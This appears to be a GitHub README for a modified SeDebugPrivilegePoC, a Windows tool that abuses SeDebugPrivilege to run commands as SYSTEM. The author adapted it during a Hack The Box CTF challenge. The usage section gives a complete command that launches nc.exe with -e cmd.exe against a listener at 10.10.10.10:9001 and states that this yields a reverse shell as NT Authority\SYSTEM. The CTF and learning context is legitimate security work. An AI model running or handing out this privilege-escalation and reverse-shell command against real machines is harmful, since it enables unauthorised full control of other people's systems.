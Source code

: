 # README.md

**# SeDebugPrivilegePoC** 

This project is a modification of the original code from [daem0nc0re's PrivFu repository](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC), specifically the SeDebugPrivilege Proof of Concept (PoC).

- Reference:
For more information on the context and background of this type of privilege escalation, visit the [HackTricks book section on Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#rce).
- Scenario:
In a Capture The Flag (CTF) challenge, specifically the POV HTB, I encountered a scenario where I lacked an interactive shell and could only execute cmd for the winlogon process ID (PID). This limitation prompted a modification to the original script, enabling the inclusion of command arguments.
- Usage:
To use this modified script, the syntax is as follows:
    
    ```java
    .\SeDebugPrivilegePoC.exe "C:\Users\username\Documents\nc.exe 10.10.10.10 9001 -e C:\Windows\system32\cmd.exe"
    ```
    

Executing the above command allows for a reverse shell to be established on the specified listener, running under the NT Authority\system context.

![Untitled](README%20md%20048d1fae6a9b4f06affe1e5606761d27/Untitled.png)

![Untitled](README%20md%20048d1fae6a9b4f06affe1e5606761d27/Untitled%201.png)